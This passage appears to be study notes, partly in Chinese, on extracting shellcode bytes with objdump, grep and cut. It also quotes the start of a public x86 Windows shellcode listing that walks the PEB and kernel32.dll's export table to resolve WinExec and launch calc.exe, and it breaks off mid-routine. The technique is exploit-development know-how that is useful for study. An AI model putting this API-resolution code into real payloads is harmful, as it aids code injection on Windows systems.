   >objdump -D win32-WinExec_Calc-Exit.o :  
  >
  >grep "^ "  : 查找以空格开始的行
  >
  >cut -f2 : 剪切并得到第二部分

+ main.asm:

  ```asm
  	; # Title:  Windows\x86 - Null - Free WinExec Calc.exe Shellcode(195 bytes)
  		; # Shellcode Author : Bobby Cooke
  		; # Date : 2020 - 02 - 21
  		; # Technique : PEB & Export Directory Table
  		; # Tested On : Windows 10 Pro(x86) 10.0.18363 Build 18363
  
  		_start :
  		; Create a new stack frame
  		mov ebp, esp; Set base stack pointer for new stack - frame
  		sub esp, 0x20; Decrement the stack by 32 bytes
  
  		; Find kernel32.dll base address
  		xor ebx, ebx; EBX = 0x00000000
  		mov ebx, [fs:ebx + 0x30]; EBX = Address_of_PEB
  		mov ebx, [ebx + 0xC]; EBX = Address_of_LDR
  		mov ebx, [ebx + 0x1C]; EBX = 1st entry in InitOrderModuleList / ntdll.dll
  		mov ebx, [ebx]; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
  		mov ebx, [ebx]; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
  		mov eax, [ebx + 0x8]; EAX = &kernel32.dll / Address of kernel32.dll
  		mov[ebp - 0x4], eax; [EBP - 0x04] = &kernel32.dll
  
  		; Find the address of the WinExec Symbol within kernel32.dll
  		; +The hex values will change with different versions of Windows
  
  		; Find the address of the Export Table within kernel32.dll
  		mov ebx, [eax + 0x3C]; EBX = Offset NewEXEHeader = 0xF8
  		add ebx, eax; EBX = &NewEXEHeader = 0xF8 + &kernel32.dll
  		mov ebx, [ebx + 0x78]; EBX = RVA ExportTable = 0x777B0 = [&NewExeHeader + 0x78]
  		add ebx, eax; EBX = &ExportTable = RVA ExportTable + &kernel32.dll
  
  		; Find the address of the Name Pointer Table within kernel32.dll
  		; +Contains pointers to strings of function names - 4 - byte / dword entries
  		mov edi, [ebx + 0x20]; EDI = RVA NamePointerTable = 0x790E0
  		add edi, eax; EDI = &NamePointerTable = 0x790E0 + &kernel32.dll
  		mov[ebp - 0x8], edi; save& NamePointerTable to stack frame
  
  		; Find the address of the Ordinal Table
  		;   -2 - byte / word entries
  		mov ecx, [ebx + 0x24]; ECX = RVA OrdinalTable = 0x7A9E8
  		add ecx, eax; ECX = &OrdinalTable = 0x7A9E8 + &kernel32.dll
  		mov[ebp - 0xC], ecx; save& OrdinalTable to stack - frame
  
  		; Find the address of the Address Table
  		mov edx, [ebx + 0x1C]; EDX = RVA AddressTable = 0x777CC
  		add edx, eax; EDX = &AddressTable = 0x777CC + &kernel32.dll
  		mov[ebp - 0x10], edx; save& AddressTable to stack - frame
  
  		; Find Number of Functions within the Export Table of kernel32.dll
  		mov edx, [ebx + 0x14]; EDX = Number of Functions = 0x642
  		mov[ebp - 0x14], edx; save value of Number of Functions to stack - frame
  
  		jmp short functions
  
  		findFunctionAddr :
  		; Initialize the Counter to prevent infinite loop
  			xor eax, eax; EAX = Counter = 0
  ```